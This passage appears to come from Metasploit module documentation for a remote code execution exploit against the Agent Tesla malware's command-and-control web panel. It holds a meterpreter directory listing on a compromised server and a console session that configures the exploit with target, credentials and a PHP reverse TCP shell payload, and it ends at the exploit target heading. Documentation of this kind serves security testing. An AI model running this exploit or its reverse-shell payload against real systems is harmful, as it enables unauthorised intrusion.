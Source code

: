 ```
meterpreter > ls
Listing: C:\wamp64\www\WebPanel\server_side\scripts
===================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  2244   fil   2016-09-21 18:10:39 -0500  ids-arrays.php
100666/rw-rw-rw-  2235   fil   2016-09-21 18:10:39 -0500  ids-objects.php
100666/rw-rw-rw-  2069   fil   2016-09-21 18:10:39 -0500  jsonp.php
100666/rw-rw-rw-  7959   fil   2016-09-21 18:10:40 -0500  mysql.sql
100666/rw-rw-rw-  1453   fil   2016-09-21 18:10:40 -0500  objects.php
100666/rw-rw-rw-  1957   fil   2016-09-21 18:10:40 -0500  post.php
100666/rw-rw-rw-  7921   fil   2016-09-21 18:10:40 -0500  postgres.sql
100666/rw-rw-rw-  1500   fil   2017-08-14 16:48:16 -0500  server_processing.php
100666/rw-rw-rw-  7857   fil   2016-09-21 18:10:40 -0500  sqlite.sql
100666/rw-rw-rw-  8021   fil   2016-09-21 18:10:40 -0500  sqlserver.sql
100666/rw-rw-rw-  14438  fil   2016-09-30 04:53:10 -0500  ssp.class.php

meterpreter >
```

### WebPanel2.7z on Windows 10 x64 19H2 with WAMP 3.2.2.2 x64, PHP 7.3.12, Apache 2.4.41, MariaDB 10.4.10

```
msf5 > use exploit/multi/http/agent_tesla_panel_rce
msf5 exploit(multi/http/agent_tesla_panel_rce) > set LHOST 169.254.115.5
LHOST => 169.254.115.5
msf5 exploit(multi/http/agent_tesla_panel_rce) > set USERNAME test
USERNAME => test
msf5 exploit(multi/http/agent_tesla_panel_rce) > set PASSWORD test
PASSWORD => test
msf5 exploit(multi/http/agent_tesla_panel_rce) > set RHOSTS 169.254.162.16
RHOSTS => 169.254.162.16
msf5 exploit(multi/http/agent_tesla_panel_rce) > show options

Module options (exploit/multi/http/agent_tesla_panel_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   test             no        The Agent Tesla CnC password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     169.254.162.16   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /WebPanel/       yes       The URI where the Agent Tesla CnC panel is located on the target
   USERNAME   test             no        The Agent Tesla CnC username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  169.254.115.5    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

```